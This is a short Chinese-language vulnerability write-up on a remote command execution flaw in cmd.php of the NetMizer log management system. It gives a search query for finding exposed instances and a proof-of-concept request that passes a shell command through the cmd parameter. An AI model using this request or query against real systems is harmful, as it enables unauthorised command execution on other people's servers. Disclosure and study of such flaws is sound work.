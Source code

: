 # 

# NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

```
NetMizer 日志管理系统
```

## 网络测绘

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面

![image-20220519175506872](./images/202205191755197.png)

验证POC

```
/data/manage/cmd.php?cmd=id
```

![image-20220519175604237](./images/202205191756275.png)

